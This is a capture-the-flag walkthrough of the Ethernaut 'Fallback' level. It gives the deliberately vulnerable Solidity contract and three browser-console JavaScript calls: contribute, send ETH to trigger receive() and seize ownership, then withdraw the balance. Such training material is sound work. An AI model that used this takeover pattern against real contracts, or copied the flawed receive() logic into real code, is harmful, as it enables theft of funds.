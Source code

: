 # Level 1 - Fallback ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/1" %}

### Level Setup

{% hint style="info" %}
Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0



Things that might help:

* How to send ether when interacting with an ABI
* How to send ether outside of the ABI
* Converting to and from wei/ether units (see `help()` command)
* Fallback methods
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Fallback.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
{% endcode %}

### Exploit

The exploit in this contract is in the `receive()` function as it changes the owner to _**any**_ `msg.sender` provided that the `msg.sender` has previously been added to the `contributions` mapping.

1. Start by contributing to the contract as this is needed to pass the `require` check in the `receive()` function. The contribution must be less than `0.001 ETH` to pass the `require` on the `contribute()` function (`line 23`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await contract.contribute({
    value: toWei('0.0005'),
})
```
{% endcode %}

2. Become the owner by sending an amount of ETH directly to the contract which will [get picked up by](../../solidity-notes/fallback.md) the `receive()` function (`line 38`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await sendTransaction({
    to: contract.address,
    from: player,
    value: toWei('0.0001')
})
```
{% endcode %}

3. Now you are the owner, withdraw all the funds.

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await contract.withdraw()
```
{% endcode %}

4. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learned about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
{% endhint %}

### Notes

* This exploit shows how logic in the `receive()` function should be carefully reviewed as even though it can't be easily called through a standard contract function call, it's still possible to call it.
* The logic doesn't make much sense as I don't see what was trying to be achieved. Maybe to have a "secret" way to change the owner?
